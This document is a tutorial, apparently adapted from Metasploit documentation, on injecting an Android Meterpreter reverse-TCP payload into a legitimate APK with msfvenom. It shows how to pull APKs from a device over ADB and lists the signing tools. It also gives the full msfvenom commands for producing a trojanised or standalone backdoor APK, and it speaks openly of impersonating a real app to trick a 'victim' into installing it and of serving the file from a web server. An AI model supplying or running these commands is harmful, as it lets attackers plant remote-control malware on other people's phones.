 You can inject the Android Meterpreter into an existing APK using msfvenom. This
will allow you to impersonate an existing application, which may make it easier 
to convince your victim to install the APK.

## Inject Payload Into An Existing APK File

It should be possible to inject Meterpreter into any APK, however some applications
have complex resource structures which may not work with `apktool`.
Additionally some applications have security measures that prevent the application
from working as expected once it has been modified.

## Create Meterpreter APK File

It is preferred to use an existing application; however, if you don't want to use an existing
application you can create a default metasploit android application.

**Finding APKs**

There are many websites that provide standalone APK that can be downloaded, e.g:
APKPure, APKMirror, RAW APK.
You can also build a simple application yourself with Android Studio.

Additionally you can pull APKs from a device connected via ADB:

```
$ adb shell pm list packages | grep app
package:com.existing.app
$ adb shell pm path com.existing.app
package:/data/app/com.existing.app-1/base.apk
$ adb pull /data/app/com.existing.app-1/base.apk com.existing.apk
[100%] /data/app/com.existing.app-1/base.apk
```

## Requirements
 
APK Injection (as opposed to generating a single APK payload) requires a few tools
to be present on your command line already:

* [Java](https://www.oracle.com/java/technologies/downloads/) - Used for building/editing APK
* [Apktool](https://ibotpeaches.github.io/Apktool/) - Used for rebuilding the APK
* [keytool](https://docs.oracle.com/javase/8/docs/technotes/tools/unix/keytool.html) - To create and extract signing certificates
* [jarsigner](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html) - To re-sign the APK

Installing these tools (if they are not installed already) will depend on your OS.
Apktool can be installed manually or automatically (e.g `brew install apktool` OR `apt install apktool`).
keytool and jarsigner can be installed by installing the appropriate JDK.

## Inject Payload Into An Existing APK File

Use:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

## Create Meterpreter APK File

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```
## Sending apk to other Devices:

There are many method to send APK to victim's device but one of the easiest methods is using a web server.

Next, start an Android device. Upload the APK, execute it and run it, as you would with
a [normal Android meterpreter APK](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md).


